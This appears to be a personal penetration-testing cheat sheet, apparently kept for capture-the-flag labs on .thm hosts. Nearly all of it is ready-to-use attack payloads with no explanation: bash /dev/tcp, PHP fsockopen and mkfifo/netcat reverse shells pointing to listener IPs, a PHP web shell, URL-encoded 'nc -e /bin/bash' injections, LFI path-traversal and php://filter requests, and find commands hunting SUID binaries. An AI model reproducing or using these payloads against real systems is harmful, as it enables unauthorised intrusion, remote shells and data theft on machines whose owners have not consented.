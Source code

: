 -c 'bash -i >& /dev/tcp/10.9.1.69/4486 0>&1'

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.0.229/4485 0>&1'");

php -r '$sock=fsockopen("10.9.0.229",4485);exec("/bin/sh -i <&3 >&3 2>&3");'

<?php system($_GET['cmd']); ?>

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.229 4485 >/tmp/f'); ?>

# ARP Scanner #

arp-scan -I eth0 192.168.240.128/24

arp -a

# SSH #

ssh -i id_rsa jessie@10.10.176.189

# Testing Web App #

http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log

10.10.4.54/shell.php?cmd=nc%2010.9.1.69%204485%20-e%20/bin/bash

http://10.10.216.6:22/nnxhweOV/index.php?cmd=nc%20-e%20/bin/bash%2010.11.9.81%2080%209999

# Find #

find / -name elyana 2>/dev/null - - - - SHELL=/bin/bash script -q /dev/nulls - Meterpreter

find / -user hermonine -type f 2>/dev/null

find / -type f -user root -perm -u=s 2>/dev/null

find / -user root -perm -4000 -executable -type f 2>/dev/null

find / -type f -name "proof.txt" -exec ls -l {} + 2>/dev/null

find / -type f -group lxd -exec ls -l {} + 2>/dev/null

find / -type f \( -name 8V2L -o -name bny0 -o -name c4ZX -o -name D8B3 -o -name FHl1 -o -name oiM0 -o -name PFbD -o -name rmfX -o -name SRSq -o -name uqyw -o -name v2Vb -o -name X1Uy \) -exec ls -la {} \; 2>/dev/null

# LTrace #

ltrace /usr/sbin/checker
